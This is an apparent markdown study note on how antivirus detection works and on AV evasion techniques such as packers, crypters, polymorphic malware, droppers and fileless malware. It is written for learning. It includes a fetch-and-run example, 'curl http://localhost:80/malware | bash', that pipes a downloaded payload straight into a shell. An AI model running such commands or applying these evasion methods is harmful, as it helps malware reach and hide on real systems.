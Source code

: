 

   ### Behaviour-Based Detection
   
- Analyzes the **behavior of programs to identify suspicious** activities that could indicate the presence of malware.
- ● Even if the exact signature isn't in the database, abnormal behavior (e.g., modifying system files, connecting to known malicious domains,unauthorized data access) may trigger an alert.
- ● This May produce false positives by flagging legitimate software as suspicious.


  ## Sandboxing

- ● **Runs suspicious programs in a controlled, isolated environment** (a **sandbox**) to observe their behavior without affecting the system.
- If the program exhibits malicious behavior in the sandbox, it is flagged as malware.


# Anti-Virus(AV) Evasion techniques

- Bypassing or not been detected by Anti-Virus.
- **NB**. If something's signature is changed, It will not appear in the database.
1. **Packer**: is a program that compresses an executable to make it smaller. to loos something, signature will be changed.
	    - **Bypasses signature based detections**.
	    - Packing changes the Signature hashes
	    - It wraps the compressed executable in the code necessary to decompress itself at runtime.
2. **Crypters/encoders**: The crypter encrypts the original executable using an encryption algorithm — often something as simple as a XOR cipher with a unique key.
    -  **Like a packer**, its goal is to change the binary fingerprint of a file to avoid detection.
3. **Polymorphic malware**: (many-forms) - for different codes for each it has different signatures. 
   - This helps it evade signature-based detection, as there is no consistent pattern for the antivirus to recognize.
4. **Downloaders And Droppers**: they are not malicious by it self. but they check the computer detection methods and then they download viruses.
   - Many kinds of malware use programs called droppers or downloaders to learn about a system before installing the real malware.
   - Some of these droppers scope out a system first to avoid triggering security alerts when they download and install the real payload.
5. **Fileless Malware**: they have no file. load directly to RAM.
   - Fileless malware operates entirely in memory, without writing any f iles to disk.
   - BlueTeamers uses **memory forensics** technique for this malware. they dump from RAM to file. Then, To make different analysis use tool: `search on google: "memory volatility forensics"`
   - ● Since traditional antivirus software often focuses on scanning files, f ileless malware can evade detection by avoiding the file system altogether.



#### Malware with file VS Fileless Malware

- **Malware with file**: when download with **curl** command: 
```
>   curl http://localhost:80/malware -o malware
>   ls              ...displays the malware file
```
- But, for **fileless malware**: after we download the malware, it do not make a file. load directly to RAM.
```
>   curl http://localhost:80/malware | bash
>   ls         
     ......no malware file here bc loaded into Bash directly
```

